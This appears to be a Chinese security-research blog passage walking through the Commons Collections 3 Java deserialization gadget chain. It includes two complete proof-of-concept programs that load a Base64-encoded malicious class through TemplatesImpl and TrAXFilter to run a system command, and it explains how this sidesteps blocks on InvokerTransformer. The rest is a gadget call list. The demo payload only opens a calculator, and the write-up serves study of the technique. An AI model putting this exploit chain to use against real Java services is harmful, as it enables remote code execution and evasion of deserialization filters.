代码功能大致为：判断输入的对象是否是一个类（Class）的实例，如果不是，则抛出异常；

分析一下如何使用的，分别传入类和参数。

构造之后得到了不需要使用newTransformer实例化的执行命令方式
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 package com.garck3h.ccChain3;import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;import org.apache.commons.collections.functors.InstantiateTransformer;import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;import javax.xml.transform.Templates;import java.lang.reflect.Field;import java.util.Base64;public class cc3 { public static void main (String[] args) throws Exception { byte [] codes = Base64.getDecoder().decode("yv66vgAAADQAMgcAJAoAAQAlCgAHACUKACYAJwgAKAoAJgApBwAqAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEYXJncwEAE1tMamF2YS9sYW5nL1N0cmluZzsBAAlieXRlQ2xhc3MBACBMY29tL2dhcmNrM2gvY2NDaGFpbjMvQnl0ZUNsYXNzOwEACkV4Y2VwdGlvbnMHACsBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAR0aGlzAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwcALAEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAGPGluaXQ+AQADKClWAQAKU291cmNlRmlsZQEADkJ5dGVDbGFzcy5qYXZhAQAeY29tL2dhcmNrM2gvY2NDaGFpbjMvQnl0ZUNsYXNzDAAgACEHAC0MAC4ALwEAFm9wZW4gLWEgQ2FsY3VsYXRvci5hcHAMADAAMQEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAEABwAAAAAABAAJAAgACQACAAoAAABBAAIAAgAAAAm7AAFZtwACTLEAAAACAAsAAAAKAAIAAAATAAgAFAAMAAAAFgACAAAACQANAA4AAAAIAAEADwAQAAEAEQAAAAQAAQASAAEAEwAUAAIACgAAAD8AAAADAAAAAbEAAAACAAsAAAAGAAEAAAAXAAwAAAAgAAMAAAABABUAEAAAAAAAAQAWABcAAQAAAAEAGAAZAAIAEQAAAAQAAQAaAAEAEwAbAAIACgAAAEkAAAAEAAAAAbEAAAACAAsAAAAGAAEAAAAaAAwAAAAqAAQAAAABABUAEAAAAAAAAQAWABcAAQAAAAEAHAAdAAIAAAABAB4AHwADABEAAAAEAAEAGgABACAAIQACAAoAAABAAAIAAQAAAA4qtwADuAAEEgW2AAZXsQAAAAIACwAAAA4AAwAAABsABAAcAA0AHQAMAAAADAABAAAADgAVABAAAAARAAAABAABABIAAQAiAAAAAgAj" ); TemplatesImpl templates = new TemplatesImpl (); setFieldValue(templates,"_class" ,null ); setFieldValue(templates,"_name" ,"xxx" ); setFieldValue(templates,"_bytecodes" ,new byte [][]{codes}); setFieldValue(templates,"_tfactory" ,new TransformerFactoryImpl ()); InstantiateTransformer instantiateTransformer = new InstantiateTransformer (new Class []{Templates.class},new Object []{templates}); instantiateTransformer.transform(TrAXFilter.class); } public static void setFieldValue (Object obj, String fieldName, Object value) throws Exception { Field field = obj.getClass().getDeclaredField(fieldName); field.setAccessible(true ); field.set(obj, value); } }

经过修改之后得到了如下的poc，可不使用InvokerTransformer也可以加载恶意类来执行命令了
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 package com.garck3h.ccChain3;import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InstantiateTransformer;import org.apache.commons.collections.map.TransformedMap;import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;import javax.xml.transform.Templates;import java.lang.reflect.Field;import java.util.Base64;import java.io.*;import java.lang.annotation.Target;import java.lang.reflect.Constructor;import java.util.HashMap;import java.util.Map;public class cc3 { public static void main (String[] args) throws Exception { byte [] codes = Base64.getDecoder().decode("yv66vgAAADQAMgcAJAoAAQAlCgAHACUKACYAJwgAKAoAJgApBwAqAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEYXJncwEAE1tMamF2YS9sYW5nL1N0cmluZzsBAAlieXRlQ2xhc3MBACBMY29tL2dhcmNrM2gvY2NDaGFpbjMvQnl0ZUNsYXNzOwEACkV4Y2VwdGlvbnMHACsBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAR0aGlzAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwcALAEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAGPGluaXQ+AQADKClWAQAKU291cmNlRmlsZQEADkJ5dGVDbGFzcy5qYXZhAQAeY29tL2dhcmNrM2gvY2NDaGFpbjMvQnl0ZUNsYXNzDAAgACEHAC0MAC4ALwEAFm9wZW4gLWEgQ2FsY3VsYXRvci5hcHAMADAAMQEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAEABwAAAAAABAAJAAgACQACAAoAAABBAAIAAgAAAAm7AAFZtwACTLEAAAACAAsAAAAKAAIAAAATAAgAFAAMAAAAFgACAAAACQANAA4AAAAIAAEADwAQAAEAEQAAAAQAAQASAAEAEwAUAAIACgAAAD8AAAADAAAAAbEAAAACAAsAAAAGAAEAAAAXAAwAAAAgAAMAAAABABUAEAAAAAAAAQAWABcAAQAAAAEAGAAZAAIAEQAAAAQAAQAaAAEAEwAbAAIACgAAAEkAAAAEAAAAAbEAAAACAAsAAAAGAAEAAAAaAAwAAAAqAAQAAAABABUAEAAAAAAAAQAWABcAAQAAAAEAHAAdAAIAAAABAB4AHwADABEAAAAEAAEAGgABACAAIQACAAoAAABAAAIAAQAAAA4qtwADuAAEEgW2AAZXsQAAAAIACwAAAA4AAwAAABsABAAcAA0AHQAMAAAADAABAAAADgAVABAAAAARAAAABAABABIAAQAiAAAAAgAj" ); TemplatesImpl templates = new TemplatesImpl (); setFieldValue(templates,"_class" ,null ); setFieldValue(templates,"_name" ,"xxx" ); setFieldValue(templates,"_bytecodes" ,new byte [][]{codes}); setFieldValue(templates,"_tfactory" ,new TransformerFactoryImpl ()); InstantiateTransformer instantiateTransformer = new InstantiateTransformer (new Class []{Templates.class},new Object []{templates}); Transformer[] transformers = new Transformer []{ new ConstantTransformer (TrAXFilter.class), instantiateTransformer }; ChainedTransformer chainedTransformer = new ChainedTransformer (transformers); HashMap<Object,Object> map = new HashMap <>(); map.put("value" ,"value" ); Map<Object,Object> transformedMap=TransformedMap.decorate(map,null ,chainedTransformer); Class c= Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" ); Constructor constructor= c.getDeclaredConstructor(Class.class,Map.class); constructor.setAccessible(true ); Object obj= constructor.newInstance(Target.class,transformedMap); serialize(obj); unserialize(); } public static void serialize (Object obj) throws Exception { ObjectOutputStream outputStream = new ObjectOutputStream ( new FileOutputStream ("ser.bin" )); outputStream.writeObject(obj); outputStream.close(); } public static void unserialize () throws Exception{ ObjectInputStream inputStream = new ObjectInputStream ( new FileInputStream ("ser.bin" )); Object obj = inputStream.readObject(); } public static void setFieldValue (Object obj, String fieldName, Object value) throws Exception { Field field = obj.getClass().getDeclaredField(fieldName); field.setAccessible(true ); field.set(obj, value); } }

cc3主要是修改了实例化的方式，然后调用TemplatesImpl动态加载类；前半部分可以继续使用cc1或者cc6的前半部分进行自由组合。

cc3的利用链大致为：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 cc3 chain: ObjectInputStream.readObject() AnnotationInvocationHandler.readObject() TransformedMap.decorate() Map(Proxy).entrySet() MapEntry.setValue() TransformedMap.checkSetValue() ChainedTransformer.transform() ConstantTransformer.transform() InstantiateTransformer.transform() TrAXFilter.TrAXFilter() TemplatesImpl.newTransformer() defineClass newInstance
总结 1.这次主要是修改了cc1和cc6的命令执行方式，从传统的直接调用runtime执行命令到了加载恶意类执行代码从而执行命令。
2.然后为了避免InvokerTransformer被禁用，使用了新的实例化的方式来实例化TemplatesImpl的newTransformer
参考：https://www.bilibili.com/video/BV1Zf4y1F74K?t=1918.0